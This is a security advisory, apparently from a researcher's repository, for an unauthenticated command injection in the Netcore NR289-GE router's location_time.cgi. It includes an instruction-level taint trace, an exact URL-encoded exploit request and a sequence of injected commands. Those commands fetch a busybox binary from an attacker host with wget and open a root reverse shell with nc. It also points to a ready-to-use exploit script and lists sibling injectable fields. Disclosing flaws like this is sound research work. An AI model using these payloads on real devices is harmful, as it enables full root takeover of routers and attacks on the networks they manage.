



# Netcore NR289-GE AC Router — Unauthenticated Command Injection in `location_time.cgi`

- Vendor: Netcore (磊科)
- Product: Netcore NR289-GE (SMB router / AC controller)
- Firmware Version: V1.4.5102 (2018.06.14, Linux 2.6.36, MIPS32r2 big-endian / RTL8198C+RTL8370)
- Vulnerability Type: OS Command Injection (CWE-78), reachable **without authentication** via the boa `.ico` whitelist flaw (see companion advisory *Netcore_NR289-GE_authentication_bypass*)

## Overview

The management CGI `/web/cgi-bin/cgitest.cgi` dispatches `location_time.cgi` to `location_time_cgi`, which embeds the user-supplied `mac` form field into a shell command executed by `system()` without any sanitization:

`POST /location_time.cgi` (authenticated) **or** `POST /<anything>.ico/location_time.cgi` (unauthenticated)

The only precondition is that the first 6 bytes of `mac` match an entry of the AC's bound-AP list (`/tmp/para/bind_list_table`, i.e. the device is managing at least one AP — the normal operating state of an AC controller; the bound-AP list with MACs is itself exposed to the web UI through the same bypass).

## Vulnerability Details

Taint flow (instruction level; binary `cgitest.cgi`, big-endian MIPS):






```
main                0x449d00  basename(argv[0]) -> "location_time.cgi"
IGD_GetCgiHandler   0x437230  static dispatch table @0x5079a0 -> location_time_cgi (perm 255)
location_time_cgi   0x413308  get_form_value("mac")        <- taint source, NO validation
                    0x413308  get_form_value("location_time_enable") / get_form_value("location_time")
location_postion    0x435e4c  forwards mac string
send_wget_set_command 0x4353c0:
                    0x4354bc  read_ap_bind_list()        -> fopen("/tmp/para/bind_list_table")
                    0x4354cc  Find_existed_bind_ap(mac)  -> only memcmp(first 6 bytes) must match
                    0x435500  ip_convert(entry->ip)      -> AP management IP for the wget URL
                    0x4358xx  sprintf(cmd, "/bin/wget_1 ... --post-data \"mode_name=location_time
                               &CurrentApp=Welcome&location_time_enable=%d&location_time=%d&mac=%s\"
                               \"http://%s/cgi-bin-igd/netcore_set.cgi\" > /tmp/status", ...)
                    0x435540  system(cmd)                <- sink
```

The `mac` value lands **inside a double-quoted shell argument**, so `AA:BB:";CMD;#` closes the quote, injects `CMD`, and comments out the rest of the template. There is no length cut on this field (commands >36 characters verified).

The actual command executed on the device (captured with strace during testing):

```
sh -c "/bin/wget_1 -t 2 -T 6 --http-user=guest --http-password=guest --post-data
 \"mode_name=location_time&CurrentApp=Welcome&location_time_enable=1&location_time=1
 &mac=AA:BB:";cat /etc/version.txt>/web/images/o.txt;#\" \"http://192.168.1.1/...\" > /tmp/status"
```

Same-pattern siblings in `send_wget_set_command` (all reachable the same way): `ap_ip.cgi` (`ip`/`mask`/`gateway` fields, see companion advisory), `set_ntp_server_ip.cgi` (`ntp_ip`), `ac_ip_config_set.cgi` (`acserver_ip`), `wifi_lamp.cgi` (`mac`).

Note: after the injected command runs, the CGI process may return an empty/aborted response — **execution must be judged by side effects, not by the HTTP response**.

## Proof of Concept

Unauthenticated request (`x.ico` path prefix bypasses Basic auth; `mac` first 6 bytes `AA:BB:` must exist in the bound-AP list):

```http
POST /x.ico/location_time.cgi HTTP/1.1
Host: <target>
Content-Type: application/x-www-form-urlencoded

mac=AA%3ABB%3A%22%3Bcat%20%2Fetc%2Fversion.txt%3E%2Fweb%2Fimages%2Fo.txt%3B%23&location_time_enable=1&location_time=1
```

(URL-decoded `mac`: `AA:BB:";cat /etc/version.txt>/web/images/o.txt;#`)

The command output lands in the web root; `/images/` is itself in the boa no-auth whitelist, so the result is read back without credentials:

```http
GET /images/o.txt HTTP/1.1
Host: <target>

HTTP/1.1 200 OK

Netcore(NR289-GE)-V1.4.5102,2018.06.14 18:44.
```

A root reverse shell is obtained by staging a static MIPS big-endian busybox (the stock firmware has `wget` but no `nc`):

```
mac=AA:BB:";wget http://<LHOST>:<SP>/busybox.mipseb -O /tmp/busybox;#
mac=AA:BB:";chmod 777 /tmp/busybox;#
mac=AA:BB:";/tmp/busybox nc <LHOST> <LPORT> -e /bin/sh;#
```

Ready-to-use EXP: `exp.py` in this directory (`python3 exp.py http://<target> --shell <LHOST> <LPORT>`).

## Impact

Unauthenticated remote command execution with **root** privileges (the web stack runs as root), i.e. full device compromise: configuration tampering, persistence, interception, and attacks on all APs managed by this AC controller.

## Reproduction Result

Dynamically verified against the firmware emulated with qemu-mips (big-endian) + chroot (boa + cgitest.cgi, a bound-AP entry mocked into `/tmp/para/bind_list_table`):



```
$ python3 exp.py http://<target> -c "cat /etc/version.txt"
Netcore(NR289-GE)-V1.4.5102,2018.06.14 18:44.
```

An interactive root reverse shell from the emulated firmware back to the Windows host was also confirmed (listener output):

```
[+] connection from ('<target>', 36813)
Netcore(NR289-GE)-V1.4.5102,2018.06.14 18:44.   <- `cat /etc/version.txt` executed in the shell
SHELL_OK
```
